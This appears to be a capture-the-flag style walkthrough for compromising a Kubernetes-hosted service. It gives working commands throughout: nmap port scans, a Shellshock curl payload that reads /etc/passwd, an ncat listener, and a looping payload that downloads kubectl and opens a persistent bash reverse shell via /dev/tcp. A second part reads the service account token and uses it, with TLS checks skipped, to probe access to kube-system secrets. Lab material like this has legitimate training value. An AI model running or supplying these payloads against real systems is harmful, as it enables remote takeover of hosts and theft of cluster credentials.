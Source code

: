 Part 1: compromise via shellshock

Useful commands for finding open ports:

```
command nmap -Pn -T4 -F --open <host-ip>
# scanning every port, more is open
command nmap -Pn -T4 --open <host-ip> -p 0-65535
command nmap -Pn -T4 --open <host-ip> -p 30081
```

1. Check shellshock

   ```
   curl http://<host_ip>:30081/cgi-bin/stats  -H 'user-agent: () { :; }; echo; echo; 2>&1 /bin/bash -c "cat /etc/passwd"'
   ```

2. create a control server to use as a reverse shell endpoint

   this requires any node with a public IP (a digital ocean server would do)

   ```
   # replace `controlplane` with a host that you can SSH to
   ssh controlplane ip a
   
   # replace 1234 with a port that is routable on the host you have SSH'd into
   while :; do ssh controlplane ncat --listen 1234 --output $(mktemp /tmp/hack-XXXX.log); done
   ```

3. shellshock in

   

   ```
    curl http://<host_ip>:30081/cgi-bin/stats  -H 'user-agent: () { :; }; echo; echo; 2>&1 /bin/bash -c "echo hello"'
   ```

   Hardcore version:

   ```
   while :; do curl http://<host_ip>:30081/cgi-bin/stats  -H 'user-agent: () { :; }; echo; echo; 2>&1 /bin/bash -c "test -f /tmp/k || wget -O /tmp/k https://storage.googleapis.com/kubernetes-release/release/v1.11.2/bin/linux/amd64/kubectl && chmod +x /tmp/k && /tmp/k version; df -h; while :; do nohup bash -i >& /dev/tcp/<host_ip>/1234 0>&1; sleep 1; done"'; done
   ```

Part 2: 

Kubectl SA: steal secret with ssh password in (flag)

### Steps

1. on the control server, or via individual shellshock commands:

   Search for secrets:

   ```
   df -h
   cat /run/secrets/kubernetes.io/serviceaccount/token; echo 
   
   /tmp/k  --token "$(cat /run/secrets/kubernetes.io/serviceaccount/token)" --server https://kubernetes.default.svc --insecure-skip-tls-verify get  nodes
   
   /tmp/k  --token "$(cat /run/secrets/kubernetes.io/serviceaccount/token)" --server https://kubernetes.default.svc --insecure-skip-tls-verify auth can-i get secrets --namespace kube-system   
   ```

